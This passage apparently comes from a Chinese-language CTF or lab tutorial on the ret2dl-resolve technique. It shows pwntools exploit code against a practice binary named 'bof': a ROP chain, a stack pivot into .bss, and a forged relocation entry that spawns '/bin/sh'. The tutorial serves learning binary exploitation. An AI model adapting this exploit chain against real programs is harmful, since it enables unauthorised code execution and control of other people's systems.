 ```python
plt_start=0x8048370
rel_offset=0x20
binsh_addr=base_stage+80
cmd='/bin/sh\x00'

payload2='aaaa'
payload2+=p32(plt_start)
payload2+=p32(rel_offset)
payload2+='dead'
payload2+=p32(1)
payload2+=p32(binsh_addr)
payload2+=p32(len(cmd))
payload2=payload2.ljust(80,'d')
payload2+=cmd
payload2=payload2.ljust(100,'d')

io.recvuntil('2015~!')
io.sendline(payload1)
sleep(1)
io.sendline(payload2)

io.interactive()
```

### stage3

通过控制index_offset指向伪造的fake_reloc

```python
from pwn import *

io=process('./bof')
elf=ELF('./bof')
context.log_level='debug'

write_plt=elf.plt['write']
read_plt=elf.plt['read']
write_got=elf.got['write']
bss_addr=elf.bss()

stack_size=0x800
base_stage=bss_addr+stack_size

p_p_p_ret=0x0804856c
leave_ret=0x08048481
pop_ebp_ret=0x08048453

payload1='a'*112
payload1+=p32(read_plt)
payload1+=p32(p_p_p_ret)
payload1+=p32(0)
payload1+=p32(base_stage)
payload1+=p32(100)
payload1+=p32(pop_ebp_ret)
payload1+=p32(base_stage)
payload1+=p32(leave_ret)

JMPREL=0x8048318
plt_start=0x8048370
fake_rel_addr=base_stage+28
rel_offset=fake_rel_addr-JMPREL
r_info=0x507
fake_rel=p32(write_got)+p32(r_info)
binsh_addr=base_stage+80
```